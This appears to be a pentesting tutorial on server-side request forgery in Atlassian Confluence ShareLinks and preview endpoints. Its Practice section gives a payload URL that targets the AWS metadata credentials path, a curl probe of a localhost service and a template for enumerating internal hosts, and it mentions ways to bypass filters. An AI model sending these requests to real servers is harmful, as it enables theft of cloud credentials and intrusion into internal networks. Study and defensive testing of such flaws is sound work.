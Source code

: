 ```yaml
---
title: Exploiting SSRF Vulnerabilities in Confluence
description: Learn how to exploit SSRF vulnerabilities in Atlassian Confluence using
  ShareLinks for server-side interactions.
keywords:
- Confluence
- SSRF vulnerabilities
- Atlassian Confluence
- ShareLinks SSRF
- HTTP request manipulation
- internal service interaction
- web server architecture
- security vulnerability
- cybersecurity
---
```


# Confluence

## Context

The objective of this guide is to demonstrate the operational exploitation of Server-Side Request Forgery (SSRF) vulnerabilities in Atlassian Confluence, with a particular focus on ShareLinks and HTTP-based service interaction. Readers should have a foundational understanding of the HTTP protocol, web server architecture, and general SSRF attack methodologies.

## Theory

### Confluence SSRF Attack Surface

Atlassian Confluence is an enterprise wiki platform widely used for web-based collaboration within organizations. Its various features and endpoints can be prone to security vulnerabilities, specifically SSRF. Some Confluence endpoints, such as those involved with ShareLinks, may allow user-supplied URLs to be fetched on the server side. This vulnerability can be leveraged to interact with internal HTTP services that are otherwise inaccessible from the external network.

### ShareLinks SSRF Mechanism

The ShareLinks feature in Confluence can be exploited for SSRF. An attacker can craft a ShareLink or similar request containing a malicious URL. When Confluence processes this request, it may fetch attacker-controlled resources or access internal resources. This happens due to insufficient validation of user-supplied URLs in ShareLinks or preview endpoints, allowing the execution of arbitrary HTTP requests.

### HTTP Request Manipulation in Confluence SSRF

Attackers can utilize techniques such as URL encoding, DNS rebinding, or alternative IP representations to bypass simplistic allow or block lists that might be in place. User input in these scenarios gets reflected in server-side HTTP requests, enabling interactions with internal or external services, thus facilitating exploitation.

## Practice

### Exploiting ShareLinks SSRF in Confluence

- **Identify Target Endpoint:**
  Locate a Confluence ShareLink or preview endpoint that accepts user-supplied URLs, such as `/rest/api/content/{id}/sharelink`.

- **Craft Malicious URL:**
  Craft a payload to target an internal service or resource. For example, attempting to access AWS metadata service:
  
  ```http
  https://confluence.example.com/rest/api/content/12345/sharelink?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
  ```
  Replace `12345` with a valid page ID.

- **Execute SSRF via cURL:**
  Test SSRF to internal services using a command line tool like `curl`:

  ```bash
  curl -k 'https://confluence.example.com/rest/api/content/12345/sharelink?url=http://127.0.0.1:8080/'
  ```
  This command attempts to interact with services running on localhost at port 8080.

- **Enumerate Internal Services:**
  Continue by crafting URLs targeting various internal services:

  ```http
  https://confluence.example.com/rest/api/content/12345/sharelink?url=http://[internal-service]:[port]/
  ```
  Change `[internal-service]` and `[port]` to test different network locations and service endpoints.

- **Analyze Server Response:**
  Evaluate the server's responses for data owned by the targeted internal service. Successful SSRF will capture and potentially return data from these hidden network locations.

This method allows for the enumeration and interaction with internal, HTTP-based services using Confluence's SSRF vulnerability.

## Tools

- **curl**
- **Burp Suite**
